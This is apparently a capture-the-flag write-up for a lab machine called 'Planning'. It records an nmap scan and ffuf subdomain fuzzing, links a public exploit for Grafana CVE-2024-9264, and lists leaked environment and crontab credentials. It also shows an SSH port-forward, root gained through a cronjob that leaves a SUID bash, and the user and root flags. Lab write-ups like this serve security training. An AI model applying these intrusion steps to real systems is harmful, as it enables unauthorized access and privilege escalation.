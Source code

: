 # Open Ports

```rb
Increasing send delay for 10.10.11.68 from 0 to 5 due to 28 out of 69 dropped probes since last increase.
Nmap scan report for planning.htb (10.10.11.68)
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 22 10:19:49 2025 -- 1 IP address (1 host up) scanned in 84.61 seconds
```


# Vhosts


```rb
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://planning.htb -H "Host:FUZZ.planning.htb" -fs 178
```

FOUND : grafana Running at grafana.planning.htb


Grafana Version 11.0.0


# Exploit

`v11.0.0 is vuln. to **CVE-2024-9264**-RCE-Exploit in Grafana via SQL Expressions`


https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit



# User Found
`In the env variables we found User: enzo Password:` RioTecRANDEntANT!
```rb
# env
GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
AWS_AUTH_EXTERNAL_ID=
SHLVL=1
HOME=/usr/share/grafana
OLDPWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
_=passwd
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
TERM=xterm-256color
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
PWD=/etc

```

Use these creds to ssh.
# UserFlag

599b4ae734f9feef0c92e0452b4dc35f



# PE

1. We found service running on port 8000  (but requires Creds)
2. Creds found at : /opt/crontab/crontab.js

cat crontab.db
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}


USERNAME = root
Password= P4ssw0rdS0pRi0T3c

access the boxes Localhost (Use it in a new terminal and make sure to close other ssh sessions.)

```sh
ssh -L 8000:127.0.0.1:8000 enzo@planning.htb
```
now you can access this server on 127.0.0.1:8000 on your browser.
But it requires password 
you can find the password at /opt/crontabs/


# Added A cronjob 

![[Pasted image 20250630210202.png]]

In the ssh shell

```sh
enzo@planning:/tmp$ ./bash -p
bash-5.2# 
```

## YYAYAYAYAYAYYAYYAYAYAY Rooottttt


5c765f4378db2d97087ffcea5d257ba1